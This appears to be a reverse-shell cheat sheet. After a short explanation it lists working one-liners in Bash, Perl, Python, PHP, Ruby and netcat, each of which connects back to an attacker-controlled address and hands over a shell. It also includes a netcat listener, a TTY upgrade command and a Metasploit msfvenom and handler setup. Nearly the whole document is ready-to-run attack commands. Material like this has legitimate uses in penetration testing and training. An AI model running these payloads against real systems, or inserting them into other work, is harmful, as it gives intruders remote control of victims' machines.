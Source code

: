# Reverse Shell

A reverse shell is a shell session established on a connection that is initiated from a remote machine, not from the local host.

Attackers who successfully exploit a remote command execution vulnerability can use a reverse shell to obtain an interactive shell session on the target machine and continue their attack.

A reverse shell (also called a connect-back shell) can also be the only way to gain remote shell access across a NAT or firewall.

## Start to listen on your machine

Using `netcat` is the best way to start a shell.

```bash
nc -lvnp 1234
```

## Connect back

### Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```

### PERL

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

If you want a .php file to upload, see the more featureful and robust php-reverse-shell in `/usr/share/webshells`.

### Ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```bash
nc -e /bin/sh 10.0.0.1 1234
```

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 >/tmp/f
```

## Upgrade to TTY

Once you get a shell, **immediately** upgrade to a TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Using Metasploit

on $LHOST

```bash
msfvenom \
-p php/meterpreter/reverse_tcp \
lhost=$LHOST \
lport=$LPORT \
-f raw
```

On `msfconsole` shell:

```txt
use multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST [IP]
set LPORT 4444
exploit
```
